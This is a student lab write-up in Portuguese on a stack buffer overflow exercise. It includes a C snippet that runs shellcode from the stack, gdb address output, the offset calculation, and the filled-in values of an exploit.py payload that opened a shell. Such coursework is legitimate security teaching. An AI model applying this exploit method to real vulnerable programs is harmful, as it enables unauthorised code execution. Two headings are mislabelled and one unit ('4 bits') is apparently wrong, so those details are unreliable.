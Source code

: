# Trabalho realizado na Semana #4

## Tarefa 3

No programa `call_shellcode.d`, é criada uma função func e é colocado no seu endereço de memória um código binário que abre uma shell. 

```c
char code[500];
strcpy(code, shellcode); // Copy the shellcode to the stack
int (*func)() = (int(*)())code;
func(); // Invoke the shellcode from the stack
```

Utilizando o ficheiro `Make` fornecido, são criados dois binários: `a32.out` e `a64.out`. Executando qualquer um destes podemos observar que é aberta uma shell. Isto acontece porque o programa chama a função `func`. No seu endereço de memória está o programa binário, sendo este o código executado.

## Tarefa 3

O primeiro objetivo do debugging é descobrir qual o endereço de retorno, e a posição inicial do buffer:

```bash
$ p $ebp
$1 = (void *) 0xffffcb68

$ p &buffer
$2 = (char (*)[100]) 0xffffcafc

```

Sabendo que o início da posição do buffer é o valor de $2 e a posição do valor de retorno é dado pelo ebp $1, podemos calcular o offset subtraindo os endereços $1- $2, obtendo assim o valor 108.

No entanto, como queremos que a função de retorno aponte para lá do fim da stack somamos também 4 bits ao offset.

Dadas estas informações podemos preencher a seguinte secção do ficheiro exploit.py

```py
# Decide the return address value and put it somewhere in the payload

ret    = 0xffffcb68         
offset = 108 + 4               

```

Para calcular o valor o início do shellcode fomos experimentando diferentes valores tendo em conta que
- este valor mais o tamanho do script não poderá exceder o tamanho do ficheiro
- o endereço de retorno irá apontar para perto daqueles imediatamente após o fim da stack

Por fim chegámos aos seguintes valores:

```py
# Decide the return address value and put it somewhere in the payload

start = 140             
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb68         # 
offset = 108 + 4                      

```

Que nos permitiram ter sucesso no ataque:

![title](screenshots/5_1.png)

